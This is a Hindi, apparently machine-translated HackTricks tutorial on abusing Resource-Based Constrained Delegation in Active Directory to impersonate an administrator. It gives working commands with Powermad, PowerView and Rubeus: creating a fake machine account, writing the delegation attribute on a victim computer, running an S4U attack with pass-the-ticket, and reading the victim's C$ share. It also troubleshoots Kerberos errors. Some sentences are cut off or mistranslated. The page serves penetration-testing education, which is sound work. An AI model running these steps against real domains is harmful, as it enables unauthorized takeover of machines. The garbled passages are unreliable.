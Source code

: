 # संसाधन-आधारित सीमित अधिकार देना

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **PRs सबमिट** करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## संसाधन-आधारित सीमित अधिकार देना की मूल बातें

यह मूल [सीमित अधिकार देना](constrained-delegation.md) के बराबर है लेकिन **इसके बजाय** किसी **वस्तु** को **किसी सेवा के खिलाफ किसी उपयोगकर्ता का अनुकरण करने की अनुमति देने की बजाय**। संसाधन-आधारित सीमित अधिकार देना **वस्तु में सेवा के खिलाफ किसी भी उपयोगकर्ता का अनुकरण करने की क्षमता रखता है**।

इस मामले में, सीमित वस्तु के पास _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ नामक एक विशेषता होगी जिसमें उपयोगकर्ता का नाम होगा जो उसके खिलाफ किसी अन्य उपयोगकर्ता का अनुकरण कर सकता है।

इस सीमित अधिकार देने से दूसरे अधिकार देनों की तुलना में एक और महत्वपूर्ण अंतर है कि किसी भी उपयोगकर्ता को **किसी मशीन खाते पर लिखने की अनुमति** होने पर (_GenericAll/GenericWrite/WriteDacl/WriteProperty/आदि_) वह _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ को सेट कर सकता है (अन्य प्रकार के अधिकार देने में आपको डोमेन व्यवस्थापक विशेषाधिकार चाहिए थे)।

### नए अवधारणाएँ

सीमित अधिकार देने में कहा गया था कि उपयोगकर्ता के _userAccountControl_ मान में **`TrustedToAuthForDelegation`** ध्वज की आवश्यकता है एक **S4U2Self** करने के लिए। लेकिन यह पूरी तरह सच नहीं है।\
यह सच्चाई है कि वह मान न होने पर भी, आप एक **सेवा** (SPN वाला) होने की स्थिति में किसी भी उपयोगकर्ता के खिलाफ **S4U2Self** कर सकते हैं, लेकिन, यदि आपके पास `TrustedToAuthForDelegation` है तो वापस मिलने वाला TGS **Forwardable** होगा और यदि आपके पास वह ध्वज नहीं है तो वापस मिलने वाला TGS **Forwardable** नहीं होगा।

हालांकि, यदि **S4U2Proxy** में उपयोग किया गया **TGS** **Forwardable नहीं** है तो एक **मूल सीमित अधिकार देने** का शोधन करने का प्रयास करने पर **काम नहीं करेगा**। लेकिन यदि आप **संसाधन-आधारित सीमित अधिकार देना** का शोधन करने का प्रयास कर रहे हैं, तो यह काम करेगा (यह कोई कमी नहीं है, यह एक सुविधा है, जाहिर है)।

### हमले का संरचना

> यदि आपके पास **कंप्यूटर** खाते पर **लिखने के समकक्ष अधिकार** हैं तो आप उस मशीन में **विशेषाधिकार** प्राप्त कर सकते हैं।

मान लें कि हमलावर के पास पहले से ही **विक्टिम कंप्यूटर** पर **लिखने के समकक्ष अधिकार** हैं।

1. हमलावर एक खाता को **कंप्रोमाइज** करता है जिसमें एक **SPN** है या एक बनाता है (“सेवा A”)। ध्यान दें कि **कोई भी** _व्यवस्थापक उपयोगकर्ता_ बिना किसी अन्य विशेष विशेषाधिकार के एक से लेकर 10 **कंप्यूटर वस्तुओं (**_**MachineAccountQuota**_**)** तक बना सकता है और उन्हें एक SPN सेट कर सकता है। इसलिए हमलावर बस एक कंप्यूटर वस्तु बना सकता है और एक SPN सेट कर सकता है।
2. हमलावर विक्टिम कंप्यूटर (सेवा B) पर अपने **लिखने के समकक्ष अधिकार** का दुरुपयोग करता है ताकि सेवा A को उस विक्टिम कंप्यूटर (सेवा B) के खिलाफ किसी भी उपयोगकर्ता का अनुकरण करने की अनुमति देने के लिए **संसाधन-आधारित सीमित अधिकार देना** कॉन्फ़िगर करें।
3. हमलावर Rubeus का उपयोग करके एक **पूर्ण S4U हमला** (S4U2Self और S4U2Proxy) करने के लिए सेवा A से सेवा B के लिए एक उपयोगकर्ता के लिए **विशेषाधिकार पहुंच** करता है।
1. S4U2Self (कंप्रोमाइज/बनाया गया SPN से): मुझे **प्रशासक का TGS** मांगें (Forwardable नहीं)।
2. S4U2Proxy: पिछले चरण के **Forwardable नहीं** TGS का उपयोग करके **प्रशासक** से **विक्टिम होस्ट** के लिए एक **TGS** मांगें।
3. यदि आप एक Forwardable TGS का उपयोग नहीं कर रहे हैं, फिर भी आप संसाधन-आधारित सीमित अधिकार देना दुरुपयोग कर रहे हैं, तो यह काम करेगा।
4. हमलावर **पास-द-टिकट** कर सकता है और **उपयोगकर्ता का अनुकरण** करके **विक्टिम सेवा B तक पहुंच** प्राप्त कर सकता है।

डोमेन की _**MachineAccountQuota**_ की जांच करने के लिए आप इस्तेमाल कर सकते हैं:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## हमला

### कंप्यूटर ऑब्जेक्ट बनाना

आप [powermad](https://github.com/Kevin-Robertson/Powermad) का उपयोग करके डोमेन के अंदर एक कंप्यूटर ऑब्ज
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### R**esource-based Constrained Delegation** कॉन्फ़िगर करना

**activedirectory PowerShell मॉड्यूल का उपयोग करें**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**पावरव्यू का उपयोग**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### एक पूर्ण S4U हमला करना

सबसे पहले, हमने `123456` पासवर्ड के साथ नया कंप्यूटर ऑब्ज
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
यह उस खाते के लिए RC4 और AES हैश प्रिंट करेगा।\
अब, हमला किया जा सकता है:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
आप Rubeus के `/altservice` पैरामीटर का उपयोग करके एक बार पूछकर अधिक टिकट उत्पन्न कर सकते हैं:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
ध्यान दें कि उपयोगकर्ताओं के पास "**डेलीगेट नहीं किया जा सकता**" नामक एक गुण होता है। यदि किसी उपयोगकर्ता के पास यह गुण सत्य है, तो आप उसकी अनुकरण नहीं कर सकेंगे। यह गुण ब्लडहाउंड के अंदर देखा जा सकता है।
{% endhint %}

### पहुंचना

आखिरी कमांड लाइन **पूर्ण S4U हमला करेगी और व्यवस्थापक से पीड़ित होस्ट में TGS** को **मेमोरी** में इंजेक्ट करेगी।\
इस उदाहरण में व्यवस्थापक से **CIFS** सेवा के लिए एक TGS का अनुरोध किया गया था, इसलिए आपको **C$** तक पहुंचने की स्वतंत्रता होगी:
```bash
ls \\victim.domain.local\C$
```
### विभिन्न सेवा टिकट का दुरुपयोग

[**यहाँ उपलब्ध सेवा टिकट के बारे में जानें**](silver-ticket.md#available-services).

## कर्बेरोस त्रुटियाँ

* **`KDC_ERR_ETYPE_NOTSUPP`**: इसका मतलब है कि कर्बेरोस को DES या RC4 का उपयोग नहीं करने के लिए कॉन्फ़िगर किया गया है और आप केवल RC4 हैश प्रदान कर रहे हैं। Rubeus को कम से कम AES256 हैश प्रदान करें (या बस rc4, aes128 और aes256 हैश प्रदान करें)। उदाहरण: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: इसका मतलब है कि वर्तमान कंप्यूटर का समय DC के समय से अलग है और कर्बेरोस सही ढंग से काम नहीं कर रहा है।
* **`preauth_failed`**: इसका मतलब है कि दिए गए उपयोगकर्ता नाम + हैश लॉगिन करने के लिए काम नहीं कर रहे हैं। आपने शायद उपयोगकर्ता नाम में "$" डालना भूल गए हो सकता है जब आप हैश जेनरेट कर रहे हो (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: इसका मतलब हो सकता है:
  * आप जिसे अनुकरण करने की कोशिश कर रहे हैं उसे वांछित सेवा तक पहुंचने की अनुमति नहीं है (क्योंकि आप उसे अनुकरण नहीं कर सकते या क्योंकि उसमें पर्याप्त विशेषाधिकार नहीं है)
  * पूछी गई सेवा मौजूद नहीं है (यदि आप विनर्म के लिए टिकट मांगते हैं लेकिन विनर्म नहीं चल रहा है)
  * बनाया गया फेक कंप्यूटर विचलित सर्वर पर अपने विशेषाधिकारों को खो चुका है और आपको उन्हें वापस देने की आवश्यकता है।

## संदर्भ

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)
